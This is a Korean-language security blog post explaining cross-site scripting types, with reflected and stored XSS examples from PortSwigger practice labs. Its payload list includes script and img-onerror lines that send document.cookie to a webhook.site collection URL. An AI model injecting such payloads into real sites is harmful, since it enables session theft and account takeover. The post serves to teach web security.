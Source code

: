 ```yaml
---
title: "XSS(Cross Site Script)"
date: 2023-09-13 +0900
img_path: /assets/img/posts/xss_cross_site_script
categories: [Web-Hacking]
tags: ['web', 'xss', 'client side attack', '2023']
---
```

## XSS란?

XSS는 **Cross Site Script**의 약어로써 공격자가 웹 리소스에 **악성 스크립트를 삽입**하는 공격입니다.

웹 이용자는 해당 스크립트를 실행시키면서 계정의 세션 정보를 탈취 당할 수 있고, 공격자는 세션정보를 통해 다른 이용자의 계정으로 임의의 기능을 수행할 수 있습니다.

### XSS는 언제 발생되는가?

- 사용자의 입력한 내용을 그대로 출력하는 기능에서 주로 발생합니다.
- HTML, CSS, JS와 같은 코드가 포함된 게시물을 조회할 경우 공격자가 입력한 스크립트가 실행될 수 있습니다.

### XSS 종류

| 종류 | 설명 |
| :--- | :--- |
| Reflected XSS | 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS |
| Stored XSS | 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS |
| Dom-based XSS | 악성 스크립트가 DOM 내부의 동작을 통해서 실행되는 XSS |
| Universal XSS | 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS |

## XSS 스크립트

스크립트를 삽입할 수 만 있다면 JS로 원하는 기능들을 수행할 수 있습니다(CORS, SOP 같은 mitigation으로 인해서 실행에 제약이 걸리는 경우를 제외하면…).

아래와 같이 `alert(1)` 을 이용해 창을 띄워서 XSS가 가능한지 테스트를 하거나, cookie를 탈취하는 스크립트를 주로 사용합니다.

또한 스크립트를 작성할 때 `<script>` 태그를 사용해주기도 하고 `onerror`, `onload` 와 같은 Event Listner를 통해서 JS 코드를 실행시키기도 합니다.



```jsx
<script>alert(1)</script>
<script>location.href='https://webhook.site/.../?x='+document.cookie</script>
<img src=x onerror="location.href='https://webhook.site/.../?x='+document.cookie">
...
```

> **위의 예시 외에도 여러가지 방법으로 스크립트를 작성할 수 있고, 필터링이 되었을 때 우회하는 방법도 존재합니다.**
{: .prompt-info }

## Reflected XSS

- 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다.
- 검색창을 통해 스크립트를 포함해서 검색하는 방식이 있습니다.
- Click Jacking 또는 Open Redirect 등 다른 취약점과 연계해서 사용됩니다.

다음은 PostSwigger에서 만든 [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
GET /?search=<script>alert(1)</script> HTTP/2
```

![Untitled.png](Untitled.png)
_Reflect XSS로 alert창을 띄운 화면_

## Stored XSS

- 서버에 데이터베이스 또는 파일 등으로 저장된 컨텐츠를 조회할 때 발생하게 됩니다.
- 주로 게시글 또는 댓글을 업로드할 때 악성 스크립트를 포함시키는 방식이 있습니다.

다음은 PostSwigger에서 만든 [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
POST /post/comment HTTP/2
Host: 0a6100980435d4358088942100db000f.web-security-academy.net
...

Id=5&comment=<img src=x onerror=alert(1)>&name=asdf&email=asdf%40asdf.adsf&website=
```

![Untitled%201.png](Untitled%201.png)
_사용자가 입력한 스크립트가 그대로 삽입된 것을 볼 수 있다_

![Untitled%202.png](Untitled%202.png)
_Stored XSS로 alert창을 띄운 화면_
